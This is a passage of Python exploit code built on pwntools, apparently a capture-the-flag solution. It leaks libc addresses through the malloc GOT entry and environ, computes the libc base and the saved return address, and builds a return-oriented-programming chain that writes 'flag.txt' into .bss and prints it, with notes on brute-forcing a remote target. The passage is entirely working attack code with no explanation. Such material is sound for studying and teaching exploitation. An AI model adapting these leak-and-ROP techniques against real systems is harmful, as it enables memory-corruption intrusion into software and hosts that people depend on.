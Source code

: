 ```python
libc_base_addr = free_addr - free_libc_OFFSET

# -------------------------------------------------

got_malloc_addr = binary.symbols['got.malloc']
payload = p64(8) + p64(got_malloc_addr)
xwrite(2, payload)

xread(0)

print(r.recvuntil(b"hex-encoded bytes\n").decode())
s = r.readline()
s = s.decode()
s = s.replace(" ", "")
s = bytes.fromhex(s)
malloc_addr = u64(s)

assert malloc_libc_OFFSET - free_libc_OFFSET == malloc_addr - free_addr

# -------------------------------------------------

libc_environ_addr = libc_base_addr + libc.symbols["environ"]
payload = p64(8) + p64(libc_environ_addr)
xwrite(2, payload)

xread(0)

print(r.recvuntil(b"hex-encoded bytes\n").decode())
s = r.readline()
s = s.decode()
s = s.replace(" ", "")
s = bytes.fromhex(s)
environ_addr = u64(s)

print(hex(libc_environ_addr))
print(hex(environ_addr))

# -------------------------------------------------

libc.address = libc_base_addr
rop = ROP(libc)

# find offset with gdb, might need some brute-force for remote
rip_addr = environ_addr - 0x140

# new file descriptor, totally brute-forcible
fd = 3
# pointer to filename = "flag.txt"
dst_filename = binary.bss(400)

mov_rcx_rdx_addr = libc_base_addr + 0x0016c020 # 2.34
mov_rcx_rdx = p64(mov_rcx_rdx_addr)

print(disasm(libc.read(mov_rcx_rdx_addr, 4)))

rop(rcx=dst_filename, rdx=u64(b"flag.txt"))
rop.raw(mov_rcx_rdx)
rop(rcx=dst_filename + 8, rdx=0)
rop.raw(mov_rcx_rdx)

# sanity checks
rop.puts(dst_filename)
rop.write(1, dst_filename, 16, 1)
```